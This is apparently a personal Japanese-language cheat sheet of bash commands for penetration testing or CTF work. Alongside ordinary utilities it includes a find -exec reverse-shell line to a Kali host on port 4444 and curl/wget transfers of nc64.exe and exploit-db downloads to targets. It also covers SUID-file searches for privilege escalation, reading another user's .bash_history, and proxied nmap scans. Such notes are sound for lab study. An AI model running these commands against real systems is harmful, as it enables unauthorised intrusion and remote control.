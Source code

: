 # ubuntu bash

* ファイル指定

  ``` shell
      # 便利
      # $(which XXX)
      cp $(which find) /tmp/find
  ```

* cat

  ``` shell
      #過去の入力情報の表示
      cat /home/XXX/.bash_history
  ```

* cron

  ``` shell
      # 設定確認
      cat /etc/crontab
      #　登録
      crontab -u <ユーザ名> -e    
  ```

* curl

  ``` shell
      #curlでファイル転送
      curl http://<Remote KaliのIP>:8000/nc64.exe -o nc64.exe
  ```

* find

  ``` shell
      #sudo設定のファイルを検索
      find / -perm -4000
      #または
      find / -type f -perm -4000 -ls 2>/dev/null

      #コマンド実行
      find ~/.profile -exec /bin/bash -p -i >& /dev/tcp/<kali ip address>/4444 0>&1 \; -quit
  ```

* grep
  
  ```shell
      #階層検索
      grep -r
      #よく使う
      ls -l | grep -re XXXX -re YYY
      # 該当するファイル名表示
      grep -l
      # nseスクリプトで脆弱性検索
      grep <app_name> -rl /usr/share/nmap/scripts/ 
  ```

* egrep

  ``` shell
      # 実行されているOSバージョンを表示
      ls /etc | egrep -e "fedore*|debian*|gentoo*|mandriva*|mandrake*|meego*|redhat*|lsb-*|sun-*|SUSE*|release"
  ```

* ユーザ情報

  ``` shell
      id
  ```

* マウントされているボリュームの取得
  
  ``` shell
     mount
  ```

* netstat

  ``` shell
      # ネットワーク状態確認
      netstat -pantu
  ```

* openssl
  
```shell
  # pass123のソルトハッシュ値の生成
  openssl passwd -1 -salt -ignite pass123
```

* パスワード変更

  ```shell
      passwd [USER_NAME]
  ```

* ProxyChains
  
  ``` shell
      #dynamic port forward　 
      #proxy経由でターゲットへのnmapスキャン
      proxychains nmap -top-ports=20 -sT -Pn XXX.XX.XXX.XXX
  ```

* pythonの仮想環境
  
  ``` bash
      #仮想環境の作成
      python3 -m venv myenv
      #仮想環境の有効か
      source myenv/bin/activate
      #仮想環境内でパッケージインストール
      pip install <package_name>
      #作業後仮想環境を無効化
      deactivate

      #virtualenvをバージョン指定でインストール
      python3 -m pip install virtualenv==XX.XX.X
      #Venvのpythonバージョン指定の起動
      python3 -m virtualenv --python=/usr/bin/pythonX.X.X myenv
  ```

* sftp
  
  ``` shell
      # sftp -i <秘密鍵> -P 8080 <ユーザ>@localhost
      sftp -i /home/kali/id_rsa -P 8080 testuser@localhost
      #接続後 ファイルを自分の端末に転送
      get /C:/Users/testuser/Desktop/Pentest/flag.txt
  ```

* ss
  
  ``` shell
      # portの開通確認
      ss -pantu
  ```

* ssh

  ``` shell
      ssh -i /home/XXX/.ssh/id_rsa <user_name>@XXX.XXX.XXX.XXX -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null
  ```

* sudo
  
  ``` shell
      #sudoの情報表示
      sudo -l
  ```

* wget
  * ダウンロード

  ``` shell
      # ダウンロード
      wget https://www.exploit-db.com/download/XXXXXX -O filename
  ```
  
  * 自前のwebサーバーからファイルをダウンロードさせる。

  ``` shell
      # Web server
      python -m http.server 8000
      # 転送
      # wget -O [転送先] [転送するファイル]
      wget -O /tmp/XXX http://XXX.XXX.XXX.XXX:8000/filename
  ```

* xfreerdp

  ``` shell
      xfreerdp /u:win /p:password /v:127.0.0.1
  ```
